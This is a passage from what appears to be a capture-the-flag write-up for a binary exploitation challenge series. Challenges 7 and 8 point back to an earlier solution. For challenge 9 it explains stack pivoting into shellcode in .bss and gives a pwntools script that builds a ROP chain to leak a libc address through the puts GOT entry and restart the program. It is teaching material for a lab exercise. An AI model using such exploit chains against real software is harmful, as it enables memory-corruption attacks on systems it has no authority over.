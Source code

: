 ```python
if __name__ == '__main__':
    main()
```

## Challenge 7

Same solution as above.

## Challenge 8

Same. 

## Challenge 9

Now we can only perform short partial writes, of 24 bytes, into the stack. Hence, the required solution involves stack pivoting. 

Notice that the shellcode is copied to the .bss. This means we may pivot the `rbp` value into deterministic shellcode address within the .bss. \
My trick is to use `leave; ret` gadget. Recall leave is actually the same as `mov rsp, rbp; pop rbp`. Moreover, we would also use the `pop rbp` gadget, in addition to the above. 

```python
def main(): 
    shellcode = 0x4150e0
    elf = ELF(BINARY)
    libc = ELF(LIBC)
    # TODO: leak stack address via the printf, and restart the program
    elf_bin_padding = elf.symbols['bin_padding']
    elf_puts = elf.symbols['puts']
    elf_start = elf.symbols['_start']
    elf_puts_got = elf.got['puts']
    libc_environ = libc.symbols['environ']
    libc_puts = libc.symbols['puts']
    libc_chmod = libc.symbols['chmod']

    rop = ROP(BINARY)
    pop_rdi_ret = rop.find_gadget(['pop rdi']).address
    pop_rsi_ret = rop.find_gadget(['pop rsi']).address
    leave_ret = rop.find_gadget(['leave']).address

    libc_rop = ROP(LIBC)

    if rop:
        # p = gdb.debug(BINARY, GDB_SCRIPT)
        p = process(BINARY)
        time.sleep(0.2)
        p.recv()

        pop_rbp_ret = elf_bin_padding + 0x30
        # PHASE 1.0 - pivot stack
        buf_1 = b''
        buf_1 += p64(pop_rbp_ret)
        buf_1 += p64(shellcode + 24)
        buf_1 += p64(leave_ret)
        buf_1 += p64(0x4141414141414141)  # newer rbp value

        # PHASE 1.1 - leak libc adderss 
        buf_1 += p64(pop_rdi_ret)
        buf_1 += p64(elf_puts_got)
        buf_1 += p64(elf_puts)  # Call puts(puts_got) - leaking its libc address
        buf_1 += p64(elf_start)  # Restart program
        p.send(buf_1)
```